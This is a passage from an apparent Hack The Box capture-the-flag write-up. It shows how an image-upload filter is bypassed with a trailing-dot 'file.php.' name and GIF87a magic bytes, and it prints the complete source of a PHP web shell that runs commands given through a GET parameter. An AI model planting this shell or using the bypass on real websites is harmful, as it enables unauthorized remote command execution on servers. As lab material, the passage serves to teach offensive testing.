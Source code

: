 
In the profile page, we have an image upload functionality.



<img src="assets/HTB/Environment/image13.png" alt="Error Loading Image"/>


After trying different types of extensions, I finally found a way to upload a shell.


File name= `file.php.`

```
GIF87a
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
